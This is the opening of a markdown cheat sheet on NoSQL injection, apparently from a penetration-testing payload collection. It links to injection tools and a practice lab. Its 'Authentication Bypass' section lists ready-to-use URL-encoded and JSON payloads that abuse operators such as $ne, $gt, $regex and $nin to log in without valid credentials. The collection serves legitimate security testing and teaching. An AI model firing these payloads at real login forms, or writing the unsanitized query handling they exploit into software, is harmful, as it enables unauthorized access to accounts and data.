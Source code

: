 # NoSQL Injection

> NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Authentication Bypass](#authentication-bypass)
    * [Extract Length Information](#extract-length-information)
    * [Extract Data Information](#extract-data-information)
* [Blind NoSQL](#blind-nosql)
    * [POST with JSON Body](#post-with-json-body)
    * [POST with urlencoded Body](#post-with-urlencoded-body)
    * [GET](#get)
* [Labs](#references)
* [References](#references)


## Tools

* [codingo/NoSQLmap](https://github.com/codingo/NoSQLMap) - Automated NoSQL database enumeration and web application exploitation tool
* [digininja/nosqlilab](https://github.com/digininja/nosqlilab) - A lab for playing with NoSQL Injection
* [matrix/Burp-NoSQLiScanner](https://github.com/matrix/Burp-NoSQLiScanner) - This extension provides a way to discover NoSQL injection vulnerabilities. 


## Methodology

### Authentication Bypass

Basic authentication bypass using not equal (`$ne`) or greater (`$gt`)

* in HTTP data
  ```ps1
  username[$ne]=toto&password[$ne]=toto
  login[$regex]=a.*&pass[$ne]=lol
  login[$gt]=admin&login[$lt]=test&pass[$ne]=1
  login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto
  ```

* in JSON data
  ```json
  {"username": {"$ne": null}, "password": {"$ne": null}}
  {"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
  {"username": {"$gt": undefined}, "password": {"$gt": undefined}}
  {"username": {"$gt":""}, "password": {"$gt":""}}
  ```

